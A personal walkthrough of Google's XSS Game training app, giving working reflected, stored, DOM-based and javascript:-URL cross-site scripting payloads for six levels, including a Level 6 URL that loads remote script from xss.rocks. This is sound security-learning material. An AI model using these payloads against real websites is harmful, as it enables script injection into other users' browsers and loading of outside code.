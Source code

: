 # Notes on Google's [XSS Game][1] Web App

## [Level 1](https://xss-game.appspot.com/level1)
Level 1 is vulnerable to a Reflected XSS attack. It can be exploited by injecting XSS code into either the form field or the URL. Both of these examples work if you paste them into the form field and press the Search button:

```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```

Both of the above examples also work if you inject them into the URL and press the Go button (which is part of the fake browser). The only limitation I found was that code injected into the URL will not work if it has a semicolon. In the second example above, you could just omit the semicolon, since it is only a one-line script.

But the attack does work through the URL if you just URL-encode the semicolon as `%3B`. Note that you'll have to prepend your attack code with: `?query=`. So you're concatenating three separate pieces:

1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

The full URL is now:
```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```

## [Level 2](https://xss-game.appspot.com/level2)
Level 2 is about Stored (aka persistent) XSS. This level seems to have some filtering to prevent you from injecting `<script>` tags. But it does allow `<img>` tags. And `<img>` tags allow handlers (like `onerror`) which can contain Javascript:

```
<img src="x" onerror="alert('xss')">
```

Once that attack string is submitted through the form field, every time the page loads, our Javascript will run in the user's browser - any user - they just have to visit this page. This is why stored XSS is more dangerous than Reflected XSS.

I could not figure out a way to inject the code directly into the URL.

## [Level 3](https://xss-game.appspot.com/level3)
To get past Level 3 I had to use Safari (10.0.3) because Firefox (51.0.1) and Chrome (55.0.2883.95) both prevented the injection of a space, encoded or not, after the single quote. Here is the full URL I used to successfully pass Level 3 with Safari:
```
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
But I wanted to keep working with Firefox. So I stole Safari's cookie called "level3".
I configured Safari to use the Burp proxy, then copied the name and value of the third cookie:
```code
level1=f148716ef4ed1ba0f192cde4618f8dc5;
level2=b5e530302374aa71cc3028c810b63641;
level3=d5ce029d0680b3816a349da0d055fcfa;
```
Here's how to set a new cookie in FF or Chrome using the console in dev tools:
```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
```
Now you can advance to level 4 in FF or Chrome.

## [Level 4](https://xss-game.appspot.com/level4)

For Level 4 I had to look up somebody else's answer and play with it because it was not working as they described. Eventually I found that, in all three browsers, it only worked if you input it into the input field. It would not work on the URL.
```
');alert();var b=('
```

## [Level 5](https://xss-game.appspot.com/level5)
To get through this level you have to do these in order:

1. Click on the "Sign up" link.
2. On the next page the URL will have changed to this:
   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=confirm
   ```
   In the URL, change the value of `next` from `confirm` to `javascript:alert(1)`.
3. Click the "Go" button, which is part of the fake browser. Clicking this button changes the value of the `href` for the "Next >>" link. Before you click the "Go" button, if you hover over the "Next >>" link, the target shown in the hoverbox is:
   ```code
   https://xss-game.appspot.com/level5/frame/confirm
   ```
   And in fact the `href` value is a relative link, simply `confirm`. After changing `confirm` to `javascript:alert(1)`, the URL is now set to this:
   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
   ```
   Click the "Go" button. Now if you hover over that same "Next >>" link, the target shown in the hoverbox is now just:
   ```
   javascript:alert(1)
   ```
   By the user having edited the URL manually, that link's `href` value had changed to the user's input.
4. Click the "Next >>" link. The alert pops up and the game sets a new cookie and displays a banner saying that you may now go on to the next level.

I think the lesson here was that if you can't inject any tags you can still inject the `javascript:` resource identifier before the actual Javascript code. I had to click on all four hints until I followed Hint 4's link to [this IETF draft](https://tools.ietf.org/html/draft-hoehrmann-javascript-scheme-00).


## Level 6
For Level 6 I had to look up the answer. It turns out that the regex was not case sensitive, so this is the successful URL:
```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```
[1]: https://xss-game.appspot.com/
